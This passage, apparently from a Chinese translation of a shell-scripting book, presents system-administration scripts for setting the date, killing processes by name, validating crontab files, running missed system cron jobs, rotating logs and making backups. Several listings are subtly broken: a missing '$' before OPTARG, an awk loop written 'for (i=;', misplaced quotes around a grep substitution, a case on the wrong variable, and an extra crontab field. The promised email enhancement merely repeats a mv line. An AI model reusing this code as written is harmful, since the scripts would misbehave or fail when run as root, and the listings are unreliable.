echo "Setting date to $squished. You might need to enter your sudo password:"
sudo date $squished

exit 0
```

Listing 6-4: `setdate` 脚本

#### 工作原理

为了使此脚本尽可能简洁，我们在 ② 处使用了 `eval` 函数来完成两件事。首先，这一行使用日期格式字符串设置当前的日期和时间值。其次，它设置了变量 `nyear`、`nmon`、`nday`、`nhr` 和 `mmin` 的值，这些变量随后在简单的 `askvalue()` 函数 ❶ 中被用来提示并测试输入的数值。使用 `eval` 函数为变量赋值还避开了在多次调用 `askvalue()` 函数之间日期可能发生进位或更改的潜在问题，否则会导致脚本获取的数据不一致。例如，如果 `askvalue` 在 23:59.59 获取了月份和日期，然后在 0:00:02 获取了小时和分钟，系统日期实际上会被设回 24 小时前——这绝不是想要的结果。

我们还需要确保为我们的系统使用正确的日期格式字符串，因为例如，OS X 在设置日期时需要一种特定格式，而 Linux 则需要稍微不同的格式。默认情况下，此脚本使用 OS X 的日期格式，但请注意注释中在 ❸ 处也提供了一个适用于 Linux 的格式字符串。

这是使用 `date` 命令时一个微妙的问题。在这个脚本中，如果你在提示期间指定了精确的时间，但随后必须输入 `sudo` 密码，你最终可能会将系统时间设置为几秒钟之前的过去时间。这可能不是个问题，但这就是为什么连接网络的系统应该使用网络时间协议（NTP）工具来将其系统与官方时间服务器同步的原因之一。你可以通过阅读 Linux 或 Unix 系统上的 `timed(8)` 来开始了解网络时间同步。

#### 运行脚本

请注意，此脚本使用 `sudo` 命令以 root 身份运行实际的日期重置，如 Listing 6-5 所示。通过为 `sudo` 输入错误的密码，你可以尝试运行此脚本而不用担心产生任何奇怪的结果。

#### 运行结果

```text
$ setdate
year [2017] :
month [05] :
day [07] :
hour [16] : 14
minute [53] : 50
Setting date to 201705071450. You might need to enter your sudo password:
passwd:
$
```

Listing 6-5: 测试交互式 `setdate` 脚本

### 47 根据名称杀死进程

Linux 和一些 Unix 系统有一个非常有用的命令叫做 `killall`，它允许你杀死所有匹配指定模式的运行中应用程序。当你想要杀死九个 `mingtety` 守护进程，或者仅仅是向 `xinetd` 发送一个 `SIGHUP` 信号以提示其重新读取配置文件时，它会非常有用。没有 `killall` 的系统可以通过编写一个 shell 脚本来模拟它，该脚本围绕 `ps`（用于识别匹配进程）和 `kill`（用于发送指定信号）构建。

该脚本最棘手的部分在于 `ps` 的输出格式在不同操作系统之间差异很大。例如，对比 FreeBSD、Red Hat Linux 和 OS X 在默认 `ps` 输出中显示运行进程的不同方式。首先看 FreeBSD 的输出：

```text
BSD $ ps
PID TT STAT TIME COMMAND
792 0 Ss 0:00.02 -sh (sh)
4468 0 R+ 0:00.01 ps
```

将此输出与 Red Hat Linux 的对比：

```text
RHL $ ps
PID TTY TIME CMD
8065 pts/4 00:00:00 bash
12619 pts/4 00:00:00 ps
```

最后，与 OS X 的输出对比：

```text
OSX $ ps
PID TTY TIME CMD
37055 tty0000 0:00.01 -bash
26881 tty0001 0:00.08 -bash
```

更糟糕的是，GNU 的 `ps` 命令并没有模仿典型的 Unix 命令，而是同时接受 BSD 风格的标志、SYSV 风格的标志和 GNU 风格的标志。简直是一个大杂烩！

幸运的是，在这个特定的脚本中，通过使用 `cu` 标志，可以避开其中一些不一致性，因为它产生的输出更加统一，包含进程所有者、完整命令名称，以及我们真正感兴趣的——进程 ID。

这也是我们第一次真正利用 `getopts` 命令的所有威力，它让我们能够处理许多不同的命令行选项，甚至提取可选值。Listing 6-6 中的脚本有四个起始标志，其中三个需要参数：`-s SIGNAL`、`-u USER`、`-t TTY` 和 `-n`。你会在第一块代码中看到它们。

#### 代码

```bash
#!/bin/bash

# killall--Sends the specified signal to all processes that match a
# specific process name

# By default it kills only processes owned by the same user, unless you're
# root. Use -S SIGNAL to specify a signal to send to the process, -u USER
# to specify the user, -t TTY to specify a tty, and -n to only report what
# should be done, rather than doing it.

signal="-INT"		# Default signal is an interrupt.
user=""	tty=""	donothing=0

while getopts "s:u:t:n" opt; do
	case "$opt" in
		# Note the trick below: the actual kill command wants -SIGNAL
		# but we want SIGNAL, so we'll just prepend the "-" below.
		s ) signal="-OPTARG";		; ;
		u ) if [ ! -z "$tty" ]; then
			# Logic error: you can't specify a user and a TTY device
			echo "$0: error: -u and -t are mutually exclusive." >&2
			exit 1
			fi
			user=$OPTARG;
			;; 
		t ) if [ ! -z "$user" ]; then
			 echo "$0: error: -u and -t are mutually exclusive." >&2
			 exit 1
		 fi
		 tty=$OPTARG;
			;; 
		n ) donothing+=1;
			;; 
		? ) echo "Usage: $0 [-s signal] [-u user] [-t tty] [-n] pattern" >&2
			 exit 1
		esac
	done

	# Done with processing all the starting flags with getopts...
	shift $(($OPTIND - 1 ))

	# If the user doesn't specify any starting arguments (earlier test is for -?)
	if [ $# -eq 0 ]; then
		echo "Usage: $0 [-s signal] [-u user] [-t tty] [-n] pattern" >&2
		exit 1
	 fi

	# Now we need to generate a list of matching process IDs, either based on
	# the specified TTY device, the specified user, or the current user.

	if [ ! -z "$tty" ]; then
		pids=$(ps cu -t $tty | awk "/ $1$/ { print \$2 }")
	elif [ ! -z "$user" ]; then
		pids=$(ps cu -U $user | awk "/ $1$/ { print \$2 }")
	else
		pids=$(ps cu -U ${USER:-LOGNAME} | awk "/ $1$/ { print \$2 }")
	 fi

	# No matches? That was easy!
	if [ -z "$pids" ]; then
		echo "$0: no processes match pattern $1" >&2
		exit 1
	 fi

	for pid in $pids
	 do
		# Sending signal $signal to process id $pid: kill might still complain
		# if the process has finished, the user doesn't have permission to kill
		# the specific process, etc., but that's our job. at least, is that done.
		if [ $donothing -eq 1 ]; then
			echo "kill $signal $pid"	# The -n flag: "but me, don't do it"
		else
			kill $signal $pid
		fi
	 done

	exit 0
```

Listing 6-6: `killall` 脚本

#### 工作原理

由于此脚本非常激进且具有潜在危险，我们投入了额外的精力来最大限度地减少错误的模式匹配，因此像 `sh` 这样的模式不会匹配到 `ps` 输出中包含 `bash` 或 `vi crashtest.c` 或其他嵌入该模式的值。这是通过 `awk` 命令上的模式匹配前缀（`/ $1$/`）实现的。

将指定的模式 `$1` 左侧限定为一个前导空格，并将右侧限定为一个尾随 `$`，这使得脚本在 `ps` 输出中搜索指定模式“sh”时，实际上搜索的是 ` sh$`。

#### 运行脚本

此脚本有多种起始标志可用于修改其行为。`-s SIGNAL` 标志允许你指定一个除默认中断信号 `SIGINT` 之外的信号发送给匹配的进程。`-u USER` 和 `-t TTY` 标志主要对 root 用户有用，分别用于杀死与指定用户或 TTY 设备相关的所有进程。而 `-n` 标志让你可以选择让脚本报告它将执行的操作，而不是实际发送任何信号。最后，必须指定一个进程名称模式。

#### 运行结果

要在 OS X 上杀死所有 `csmount` 进程，你可以使用 `killall` 脚本，如 Listing 6-7 所示。

```text
$ ./killall -n csmount
kill -INT 1292
kill -INT 1296
kill -INT 1306
kill -INT 1310
kill -INT 1318
```

Listing 6-7: 在任何 `csmount` 进程上运行 `killall` 脚本

#### 修改脚本

在运行此脚本时可能会出现一个虽然可能性不大但并非不可能的 bug。为了仅匹配指定的模式，`awk` 调用会输出匹配模式的进程 ID，以及出现在输入行末尾的一个前导空格。但理论上可能有两个进程在运行——比如一个叫 `bash`，另一个叫 `emulate bash`。如果调用 `killall` 时将 `bash` 作为模式，这两个进程都会被匹配，尽管只有前者是真正的匹配。要解决这个问题以提供一致的跨平台结果将会相当棘手。

如果你感兴趣，你还可以基于 `killall` 脚本编写一个脚本，允许你通过名称而不是仅通过进程 ID 来对作业进行 `renice`。唯一需要的更改就是调用 `renice` 而非 `kill`。

而不是杀死。调用 `renice` 可以让你更改程序的相对优先级，例如，你可以降低一个耗时文件传输任务的优先级，同时提高老板正在运行的视频编辑器的优先级。

### 48 验证用户 `crontab` 条目

Linux 世界中最有用的设施之一就是 `cron`，它能够在未来的任意时间调度任务，或者让任务每分钟、每隔几小时、每月甚至每年自动运行。每一位优秀的系统管理员都有一个由 `crontab` 文件运行的脚本“瑞士军刀”。

然而，输入 `cron` 规范的格式有点复杂，且 `cron` 字段包含数值、范围、集合，甚至还有星期或月份的助记名称。更糟糕的是，当 `crontab` 程序在用户或系统 `cron` 文件中遇到问题时，它会生成晦涩难懂的错误消息。

例如，如果你在指定星期几时出现了拼写错误，`crontab` 报告的错误与此处所示类似：

```text
"/tmp/crontab.Dj7Tr4w6R":9: bad day-of-week
crontab: errors in crontab file, can't install
```

事实上，在示例输入文件的第 12 行还有一个第二个错误，但由于 `crontab` 的错误检查代码质量较差，它会强迫我们通过冗长的路径才能在脚本中找到它。


与其按照`crontab`要求的方式进行错误检查，不如使用一个稍微长一点的 shell 脚本（见代码清单 6-8），它可以逐步遍历`crontab`文件，检查语法并确保数值在合理范围内。在 shell 脚本中能够实现这种验证的原因之一是，集合和范围可以被视为单个值。因此，要测试`3-11`或`4, 6, 9`是否为某个字段的可接受值，只需在前一种情况下测试`3`和`11`，在后一种情况下测试`4`、`6`和`9`即可。

#### 代码

```bash
#!/bin/bash
# verifycron--检查 crontab 文件以确保其格式正确。
# 预期标准 cron 记法为 min hr dom mon dow CMD，其中 min 为
# 0-59，hr 为 0-23，dom 为 1-31，mon 为 1-12（或名称），dow 为 0-7
# （或名称）。字段可以是范围 (a-e) 或以逗号分隔的列表
# (a,c,z) 或星号。请注意，Vixie cron 的步进值记法
# (例如，2-6/2) 在当前版本的脚本中不受支持。

validNum()
{
 # 如果给出的数字是有效的整数则返回 0，否则返回 1。
 # 将数字和最大值 (maxvalue) 作为函数的参数指定。
 num=$1  max=$2

 # 为了简单起见，字段中的星号值被重写为 "X"，
 # 因此任何形式为 "X" 的数字实际上都是有效的。

 if [ "$num" = "X" ] ; then
    return 0
 elif [ -z $(echo $num | sed 's/[[:digit:]]//g') ] ; then
    # 删除了所有数字，且剩余部分不为空？不合格。
    return 1
 elif [ $num -gt $max ] ; then
    # 数字大于允许的最大值。
    return 1
 else
    return 0
 fi
}

validDay()
{
    # 如果传递给此函数的值是有效的日期名称，则返回 0；
    # 否则返回 1。

    case $(echo $1 | tr '[:upper:]' '[:lower:]') in
    sun*|mon*|tue*|wed*|thu*|fri*|sat*) return 0 ;;
    X) return 0 ;;			# 特殊情况，它是重写后的 "*"
    *) return 1
    esac
}

validMon()
{
    # 如果给定有效的月份名称，此函数返回 0；否则返回 1。

    case $(echo $1 | tr '[:upper:]' '[:lower:]') in
    jan*|feb*|mar*|apr*|may*|jun*|jul*|aug*) return 0		;;
    sep*|oct*|nov*|dec*) 					return 0		;;
    X) return 0 ;; # 特殊情况，它是重写后的 "*"
    *) return 1		;;
    esac
}

fixvars()
{
    # 将所有 '*' 翻译为 'X' 以规避 shell 扩展的麻烦。
    # 将原始输入保存为 "sourceline" 用于错误消息。

    sourceline="$min $hour $dom $mon $dow $command"
    min=$(echo "$min" | tr '*' 'X')	# 分钟
    hour=$(echo "$hour" | tr '*' 'X')	# 小时
    dom=$(echo "$dom" | tr '*' 'X')	# 一个月中的日期
    mon=$(echo "$mon" | tr '*' 'X')	# 月份
    dow=$(echo "$dow" | tr '*' 'X')	# 星期几
}

if [ $# -ne 1 ] || [ ! -r $1 ]; then
  # 如果未给出 crontab 文件名，或者脚本无法读取该文件，则失败。
  echo "Usage: $0 usercrontabfile" >&2
  exit 1
fi

lines=0 entries=0 totalerrors=0

# 逐行遍历 crontab 文件，检查每一行。

while read min hour dom mon dow command
do
  lines=$(( $lines + 1 ))
  errors=0

  if [ -z "$min" -o "${min%${min#?}}" = "#" ]; then
    # 如果是空行或该行第一个字符是 "#"，则跳过。
    continue # 无需检查
  fi

  ((entries++))

  fixvars

  # 此时，当前行的所有字段都被拆分到
  # 独立的变量中，且为了方便，所有星号都被替换为 "X"，
  # 现在让我们检查输入字段的有效性...

  # 分钟检查
  for minslice in $(echo "$min" | sed 's/[,-]/ /g') ; do
    if ! validNum $minslice 60 ; then
      echo "Line ${lines}: Invalid minute value \"$minslice\""
      errors=1
    fi
  done

  # 小时检查
  for hrslice in $(echo "$hour" | sed 's/[,-]/ /g') ; do
    if ! validNum $hrslice 24 ; then
      echo "Line ${lines}: Invalid hour value \"$hrslice\""
      errors=1
    fi
  done

  # 一个月中的日期检查
  for domslice in $(echo $dom | sed 's/[,-]/ /g') ; do
    if ! validNum $domslice 31 ; then
      echo "Line ${lines}: Invalid day of month value \"$domslice\""
      errors=1
    fi
  done

  # 月份检查：必须同时检查数字值和名称。
  # 请记住，像 "if ! cond" 这样的条件意味着它在测试
  # 指定的条件是否为 FALSE（假），而不是 TRUE（真）。
  for monslice in $(echo "$mon" | sed 's/[, -]/ /g') ; do
    if ! validNum $monslice 12 ; then
      if ! validMon "$monslice" ; then
        echo "Line ${lines}: Invalid month value \"$monslice\""
        errors=1
      fi
    fi
  done

  # 星期几检查：同样，名称或数字都是可能的。
  for dowslice in $(echo "$dow" | sed 's/[, -]/ /g') ; do
    if ! validNum $dowslice 7 ; then
      if ! validDay $dowslice ; then
        echo "Line ${lines}: Invalid day of week value \"$dowslice\""
        errors=1
      fi
    fi
  done

  if [ $errors -gt 0 ] ; then
    echo ">>> ${lines}: $sourceline"
    echo ""
    totalerrors=$(( $totalerrors + 1 ))
  fi
done < $1 # 读取作为参数传递给脚本的 crontab 文件

# 请注意，就在这里，在 while 循环的最后，
# 我们重定向输入，以便脚本可以检查
# 用户指定的文件名！

echo "Done. Found $totalerrors errors in $entries crontab entries."

exit 0
```

代码清单 6-8：`verifycron`脚本

#### 工作原理

让这个脚本正常运行的最大挑战是避开 shell 想要展开星号字段值（`*`）的问题。星号在 cron 条目中是完全可以接受的，而且实际上非常常见，但如果你通过`$( )`序列或管道将星号传递给子 shell，shell 会自动将其展开为当前目录下文件列表——这绝对不是想要的结果。与其苦思冥想解决此问题所需的单引号和双引号组合，不如将每个星号替换为`X`，这正是`fixvars`函数在将内容拆分为独立变量以供后续测试时所做的工作。

同样值得注意地是处理由逗号和连字符分隔的值列表的简单方案。标点符号被简单地替换为空格，并且每个值都被当作独立的数值进行测试。这就是`for`循环中①、②、③、④和⑤处的`$( )`序列所做的事情：

```bash
$(echo "$dow" | sed 's/[, -]/ /g')
```

这使得遍历所有数值变得简单，从而确保每一个值都是有效的，且在特定`crontab`字段参数的范围内。

#### 运行脚本

这个脚本很容易运行：只需指定一个`crontab`文件名作为其唯一参数。要处理现有的`crontab`文件，请参见代码清单 6-9。

```bash
$ crontab -l > my.crontab
$ verifycron my.crontab
$ rm my.crontab
```

代码清单 6-9：在导出当前 cron 文件后运行`verifycron`脚本

#### 结果

使用一个包含两个错误和大量注释的示例`crontab`文件，脚本产生了代码清单 6-10所示的结果。

```text
$ verifycron sample.crontab
Line 10: Invalid day of week value "Mou"
>>>> 10: 06 22 * * Mou /home/ACeSystem/bin/del_old_ACInventories.pl

Line 12: Invalid minute value "99"
>>>> 12: 99 22 * * 1-3,6 /home/ACeSystem/bin/dump_cust_part_no.pl

Done. Found 2 errors in 13 crontab entries.
```

代码清单 6-10：在包含无效条目的 cron 文件上运行`verifycron`脚本

包含这两个错误的示例`crontab`文件以及本书中探讨的所有 shell 脚本均可在 http://www.nostarch.com/wcss2/ 获取。

#### 改造脚本

为这个脚本添加一些增强功能可能是有价值的。验证月份和日期组合的兼容性可以确保用户不会将 cron 任务调度在例如 2 月 31 日运行。检查被调用的命令是否真的能被找到可能也会很有用，但这将涉及解析和处理`PATH`变量（即用于查找命令的目录列表）。

（在脚本中指定），这可以在`crontab`文件中显式设置。这可能会相当棘手……最后，你可以添加对`@hourly`或`@reboot`等值的支持，这些是`cron`中的特殊值，用于表示脚本运行的常见时间点。

### #49 确保系统 cron 任务运行

直到最近，Linux 系统在设计之初都是为了作为服务器运行的——一周 7 天，每天 24 小时，永远在线。你可以在 cron 设施的设计中看到这种隐含的预期：如果系统每晚 6:00 关闭，那么将任务调度在每周四凌晨 2:17 运行就毫无意义。

然而，许多现代 Unix 和 Linux 用户使用的是台式机和笔记本电脑，因此会在一天结束时关闭系统。例如，对于 OS X 用户来说，让系统整夜运行，更不用说在周末或假期运行，可能是非常陌生的事情。

对于用户`crontab`条目来说，这并不是大问题，因为那些由于关机计划而未运行的任务可以通过调整来确保最终被调用。问题出现在作为底层系统一部分的每日、每周和每月系统 cron 任务未能在指定时间运行时。

这就是代码清单 6-11 中脚本的目的：允许管理员根据需要直接从命令行调用每日、每周或每月任务。

#### 代码

```bash
#!/bin/bash

# docron--在可能在系统 cron 任务通常调度运行的时间段内关机的系统上
# 运行每日、每周和每月系统 cron 任务。

rootcron="/etc/crontab"   # 这将根据你使用的 Unix 或 Linux 版本而有显著差异。

if [ $# -ne 1 ] ; then
    echo "Usage: $0 [daily|weekly|monthly]" >&2
    exit 1
fi

# 如果此脚本不是由管理员运行的，则退出。
# 在之前的脚本中，你看到测试了 USER 和 LOGNAME，但在
# 这种情况下，我们将直接检查用户 ID 值。Root = 0。

if [ "$(id -u)" -ne 0 ] ; then
    # 或者根据需要，这里可以使用 $(whoami) != "root"。
    echo "$0: Command must be run as 'root'" >&2
    exit 1
fi

# 我们假设 root cron 拥有 `daily'、`weekly' 和
# 'monthly' 任务的条目。如果我们找不到指定的条目，
# 那么这就是个错误。但首先，尝试在有匹配项时获取命令
# （这也是我们预期的情况）。

job=$(awk "-NF > 6 && $1/ { for (i=;i<=NF;i++) print \$i } " $rootcron)

if [ -z "$job" ] ; then
    # 没有任务？没有任务？奇怪。好吧，这是一个错误。
    echo "$0: Error: no $1 job found in $rootcron" >&2
    exit 1
fi

SHELL=$(which sh)    # 为了与 cron 的默认设置保持一致

eval $job    # 任务一旦完成，我们将退出。
```

代码清单 6-11：`docron`脚本

#### 工作原理

位于`/etc/daily`、`/etc/weekly`和`/etc/monthly`（或`/etc/cron.daily`、`/etc/cron.weekly`和`/etc/cron.monthly`）中的 cron 任务与用户`crontab`文件的设置完全不同：每个都是一个目录，包含一组脚本（每个任务一个脚本），这些脚本由`crontab`设施按照`/etc/crontab`文件中的指定运行。为了让事情变得更复杂，`/etc/crontab`文件的格式也不同，因为它增加了一个额外的字段，用于指示应由哪个有效用户 ID 运行该任务。

`/etc/crontab`文件指定了运行每日、每周和每月任务的当天小时数（在接下来的输出的第二列中），其格式与你作为普通 Linux 用户所见到的完全不同，如下所示：

```bash
$ egrep '(daily|weekly|monthly)' '/etc/crontab'
# Run daily/weekly/monthly jobs.
15 3 * * * * root periodic daily
30 4 * * 6 root periodic weekly
30 5 1 * * root periodic monthly
```

如果系统在每晚 3:15、周六凌晨 4:30以及每月 1 日凌晨 5:30没有运行，那么每日、每周和每月任务会怎样？什么也不会发生。它们就是不运行。

我们编写的脚本并不是试图强迫 cron 运行任务，而是识别此文件中的任务并使用最后一行的`eval`直接运行它们。通过此脚本调用任务与作为 cron 任务一部分调用任务的唯一区别是：当任务由 cron 运行时，它们的输出流会自动转换为电子邮件消息，而此脚本将输出流显示在屏幕上。

当然，你可以通过如下调用该脚本来模拟 cron 的电子邮件行为：

```bash
./docron weekly | mail -E -s "weekly cron job" admin
```

#### 运行脚本

此脚本必须以 root 身份运行，并有一个参数——`daily`、`weekly`或`monthly`——用以指示你想要运行哪一组系统 cron 任务。和往常一样，我们强烈建议使用`sudo`以 root 身份运行任何脚本。

#### 结果

除非脚本内部或 cron 脚本启动的任务中遇到错误，否则此脚本基本上没有直接输出，仅显示在`crontab`中运行的脚本的结果。

#### 改进脚本

某些任务不应每周或每月运行多次，因此确实应该建立某种检查机制，以确保它们不会运行得过于频繁。此外，有时循环运行的系统任务可能确实是由 cron 运行的，因此我们不能一概而论地认为如果`docron`没有运行，那么任务就没有运行。

一种解决方案是创建三个空的戳记文件（timestamp files），分别用于每日、每周和每月任务，然后在`/etc/daily`、`/etc/weekly`和`/etc/monthly`目录中添加新条目，使用`touch`更新每个戳记文件的最后修改日期。这将解决一半的问题：`docron`随后可以检查循环 cron 任务上次被调用的时间，如果经过的时间不足以证明再次运行任务的必要性，则退出。

这种解决方案无法处理的情况是：在每月 cron 任务上次运行六周后，管理员运行`docron`来调用每月任务。然后四天后，有人忘记关闭电脑，每月 cron 任务被调用。该任务如何知道其实不需要再次运行每月任务？


可以在相应的目录中添加两个脚本。一个脚本必须首先由`run-script`或`periodic`（调用 cron 任务的标准方式）运行，然后它可以关闭目录中所有其他脚本的可执行位，除了它的配对脚本，后者在`run-script`或`periodic`扫描并确认没有事情可做（目录中所有文件似乎都不可执行，因此 cron 不运行它们）之后，再将可执行位重新开启。然而，这不是一个太好的解决方案，因为脚本的执行顺序没有保证，如果我们不能保证新脚本的运行顺序，整个方案就会失败。

实际上，这个困境可能没有完美的解决方案。或者它可能涉及为`run-script`或`periodic`编写一个包装程序，该程序知道如何管理戳记，以确保任务不会执行得太频繁。或者，也许我们是在担心一个在大局看来其实并不重要的问题。😊

### #50 轮转日志文件

对于没有太多 Linux 经验的用户来说，很多命令、实用程序和守护进程将事件记录到系统日志文件中的情况可能会让他们感到惊讶。即使在磁盘空间很大的计算机上，监控这些文件的大小——当然还有它们的内容——也非常重要。

因此，许多系统管理员在他们的日志文件分析工具顶部放置了一组指令，类似于这里显示的命令：

```bash
mv $log.2 $log.3
mv $log.1 $log.2
mv $log $log.1
touch $log
```

如果每周运行一次，这将产生一个滚动的一个月日志文件信息存档，数据被分为周大小的部分。然而，同样简单的方法是创建一个脚本，一次性为`/var/log`目录中的所有日志文件完成此操作，从而减轻任何日志文件分析脚本的负担，并且即使在管理员不分析任何内容的月份也能管理日志。

代码清单 6-12 中的脚本遍历`/var/log`目录中符合特定一组条件的每个文件，检查每个匹配文件的轮转计划和最后修改日期，以查看是否到了文件轮转的时间。如果到了轮转时间，脚本就会执行轮转。

#### 代码

```bash
#!/bin/bash
# rotatelogs--出于存档目的轮转 /var/log 中的日志文件，并确保
# 文件不会变得大到无法管理。此脚本使用配置文件
# 以允许自定义每个日志轮转的频率。
# 配置文件采用 logfilename=duration 格式，其中 duration
# 单位为天。如果在配置条目中，某个特定 logfilename 缺少条目，
# rotatelogs 轮转该文件的频率将不会高于每七天一次。
# 如果 duration 设置为零，脚本将忽略该组特定的日志文件。

logdir="/var/log"              # 你的日志文件目录可能会有所不同。
config="$logdir/rotatelogs.conf"
mv="/bin/mv"
```

```bash
default_duration=7	# 我们默认采用 7 天的轮转周期。
count=0

duration=$default_duration

if [ ! -f $config ] ; then
	# 这个脚本没有配置文件？那就退出。你也可以安全地删除
	# 这个测试，并在配置文件缺失时直接忽略自定义设置。
	echo "$0: no config file found. Can't proceed." >&2
	exit 1
fi

if [ ! -w $logdir -o ! -x $logdir ] ; then
	# -w 是写权限，-x 是执行权限。在 Unix 或 Linux 目录中创建新
	# 文件需要同时具备这两个权限。如果没有，我们就失败。
	echo "$0: you don't have the appropriate permissions in $logdir" >&2
	exit 1
fi

cd $logdir

# 虽然我们想在 find 中使用像 :digit: 这样的标准集合表示法，
# 但许多版本并不支持 POSIX 字符类标识符——因此使用 [0-9]。

# 这是一个相当复杂的 find 语句，在本节后面的正文中会有详细解释。
# 如果你好奇，请继续阅读！

for name in $(find $logdir -maxdepth 1 -type f -size +0c ! -name "* [0-9]*" ! \
	! -name "*.*" ! -name "*conf" -print | sed 's/\^\.\///')
do
	count=$(( $count + 1 ))
	# 从配置文件中获取该特定日志文件的匹配项。
	duration=$( "grep "^${name}=" $config|cut -d= -f2")
	if [ -z "$duration" ] ; then
		duration=$default_duration	# 如果没有匹配项，则使用默认值。
	elif [ "$duration" = "0" ] ; then
		echo "Duration set to zero: skipping $name"
		continue
	fi
	# 设置轮转文件名。很简单：
	back1="${name}.1"; back2="${name}.2";
	back3="${name}.3"; back4="${name}.4";
	# 如果最近一次轮转的日志文件 (back1) 在特定的时间量内被修改过，
	# 那么现在还不是轮转它的时机。这可以通过 find 的 -mtime 
	# 修改时间测试来发现。

if [ -f "$back1" ]; then
	if [ -z "$(find \"$back1\" -mtime +$duration -print 2>/dev/null) " ]
	then
		/bin/echo -n "$name's most recent backup is more recent than $duration "
		echo "days: skipping" ; continue
	fi
	fi

echo "Rotating log $name (using a $duration day schedule)"

# 开始轮转，从最旧的日志开始，但要小心，因为一个
# 或多个文件可能尚不存在。

if [ -f "$back3" ]; then
	echo "... $back3 -> $back4" ; $mv -f "$back3" "$back4"
	fi
if [ -f "$back2" ]; then
	echo "... $back2 -> $back3" ; $mv -f "$back2" "$back3"
	fi
if [ -f "$back1" ]; then
	echo "... $back1 -> $back2" ; $mv -f "$back1" "$back2"
	fi
if [ -f "$name" ]; then
	echo "... $name -> $back1" ; $mv -f "$name" "$back1"
	fi

touch "$name"
chmod 0600 "$name"  # 最后一步：为了隐私，将文件权限更改为 rw-------
done

if [ $count -eq 0 ] ; then
	echo "Nothing to do: no log files big enough or old enough to rotate"
fi

exit 0
```

## 代码清单 6-12：`rotatelogs` 脚本

为了最大限度地发挥作用，该脚本与一个位于`/var/log`的配置文件配合工作，允许管理员为不同的日志文件指定不同的轮转周期。典型配置文件的内容如代码清单 6-13 所示。

```bash
# 日志轮转脚本的配置文件：格式为 name=duration，
# 其中 name 可以是 /var/log 目录中出现的任何文件名。
# Duration 的单位是天。

ftp.log=30
lastlog=14
lookupd.log=7
lpr.log=30
mail.log=7
netinfo.log=7
secure.log=7
statistics=7
system.log=14
# 任何 duration 为零的文件都不进行轮转。
wtmpt=0
```

代码清单 6-13：`rotatelogs` 脚本的一个配置示例文件

#### 工作原理

这个脚本的核心，当然也是最复杂的部分，是❶处的`find`语句。`find`语句创建了一个循环，返回`/var/log`目录下所有大小大于零字符、文件名不包含数字、不以点号开头（特别是 OS X 会在这个目录下存放许多命名奇怪的日志文件——这些都需要跳过），且不以`conf`结尾（显然我们不想把`rotatelogs.conf`文件也轮转掉）的文件。`maxdepth 1`确保`find`不会进入子目录，而最后的`sed`调用则删除了匹配项中所有前导的`./`序列。

> **注意** 懒惰是好事！`rotatelogs`脚本演示了 shell 脚本编程中的一个基本概念：避免重复工作的价值。与其让每个日志分析脚本自行轮转日志，不如由一个统一的日志轮转脚本将该任务集中化，使修改变得简单。

#### 运行脚本

该脚本不接受任何参数，但它会打印出哪些日志正在被轮转以及原因。它还应该以 root 身份运行。

#### 结果

`rotatelogs`脚本使用简单，如代码清单 6-14 所示，但请注意，根据文件权限的不同，它可能需要以 root 身份运行。

```bash
$ sudo rotatelogs
ftp.log’s most recent backup is more recent than 30 days: skipping
Rotating log lastlog (using a 14 day schedule)
... lastlog -> lastlog.1
lpr.log’s most recent backup is more recent than 30 days: skipping
```

代码清单 6-14：以 root 身份运行`rotatelogs`脚本以轮转`/var/log`中的日志

请注意，在这次调用中，只有三个日志文件符合指定的`find`标准。其中，根据配置文件中的`duration`值，只有`lastlog`没有在足够近期内进行备份。然而，再次运行`rotatelogs`，则没有任何操作，如代码清单 6-15 所示。

```bash
$ sudo rotatelogs
ftp.log's most recent backup is more recent than 30 days: skipping
lastlog's most recent backup is more recent than 14 days: skipping
lpr.log's most recent backup is more recent than 30 days: skipping
```

代码清单 6-15：再次运行`rotatelogs`显示没有更多日志需要轮转。

#### 改造脚本

使该脚本更有用的一种方法是，在最旧的存档文件（旧的`$back4`文件）被`mv`命令覆盖之前，将其通过电子邮件发送或复制到云存储站点。对于简单的电子邮件情况，脚本可能看起来像这样：

```bash
echo "... $back3 -> $back4"; $mv -f "$back3" "$back4"
```

对`rotatelogs`的另一个有用增强是压缩所有轮转后的日志以进一步节省磁盘空间；这将要求脚本在执行过程中能够识别并正确处理压缩文件。

### #51 管理备份

管理系统备份是所有系统管理员都熟悉的一项任务，而且这项工作几乎是所有工作中最吃力不讨好的一项。没有人会说：“嘿，备份工作运行得很好——干得漂亮！”即使在单用户 Linux 计算机上，某种备份计划也是必不可少的。不幸的是，通常只有在被坑过一次，丢失了数据和文件之后，你才会意识到定期备份的价值。许多 Linux 系统忽略备份的原因之一是，许多备份工具过于简陋且难以理解。

Shell 脚本可以解决这个问题！代码清单 6-16 中的脚本备份指定的一组目录，可以是增量备份（即，仅备份自上次备份以来发生更改的文件）或全量备份（所有文件）。备份在运行过程中实时压缩以尽量减少磁盘空间占用，脚本输出可以定向到文件、磁带设备、远程挂载的 NFS 分区、云备份服务（就像我们在书后面设置的那样），甚至 DVD。

#### 代码

```bash
#!/bin/bash

# backup--为系统上定义的一组目录创建全量或增量备份。
# 默认情况下，输出文件被压缩并保存在 /tmp 中，文件名带有时间戳。
# 否则，可指定输出设备（另一个磁盘、可移动存储设备或任何你喜欢的方式）。

compress="bzip2"                      # 修改为你喜欢的压缩程序。
inclist="/tmp/backup.inclist.$(date +%d%m%y)"
output="/tmp/backup.$(date +%d%m%y).bz2"
tsfile="$HOME/.backup.timestamp"
btype="incremental"                     # 默认为增量备份。
noinc=0                                   # 这里是时间戳的更新标志。

trap "/bin/rm -f $inclist" EXIT

usageQuit()
{
    cat << "EOF" >&2
    Usage: $0 [-o output] [-i|-f] [-n]
    -o lets you specify an alternative backup file/device,
    -i is an incremental, -f is a full backup, and -n prevents
    updating the timestamp when an incremental backup is done.
    EOF
    exit 1
}

########## 主代码部分由此开始 ###########

while getopts "o:ifn" arg; do
    case "$OPTARG" in
        o ) output="$OPTARG";    ;;  # getopts 自动管理 OPTARG。
        i ) btype="incremental"; ;;
        f ) btype="full";        ;;
        n ) noinc=1;              ;;
        ? ) usageQuit            ;;
    esac
done

shift $(( $OPTIND - 1 ))

echo "Doing $btype backup, saving output to $output"

timestamp="$(date +%m%d%H%M)"    # 从 date 获取月、日、时、分。
                                   # 对日期格式好奇？请查阅 "man strftime"

if [ "$btype" = "incremental" ] ; then
    if [ ! -f $tsfile ] ; then
        echo "Error: can't do an incremental backup: no timestamp file" >&2
        exit 1
    fi
    find $HOME -depth -type f -newer $tsfile -user ${USER:-$LOGNAME} | \
    pax -w -x tar | $compress > $output
    failure="$?"
else
    find $HOME -depth -type f -user ${USER:-$LOGNAME} | \
